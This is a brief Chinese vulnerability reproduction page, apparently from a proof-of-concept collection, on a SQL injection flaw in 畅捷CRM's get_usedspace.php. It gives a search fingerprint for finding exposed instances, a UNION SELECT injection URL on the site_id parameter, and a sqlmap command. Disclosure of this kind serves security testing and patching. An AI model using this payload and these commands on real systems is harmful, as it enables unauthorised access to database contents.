


畅捷CRM get_usedspace.php SQL注入漏洞¶
漏洞描述¶
畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息
漏洞影响¶
畅捷CRM
网络测绘¶
title="畅捷CRM"
漏洞复现¶
登录页面

验证POC
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--

使用Sqlmap验证漏洞
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id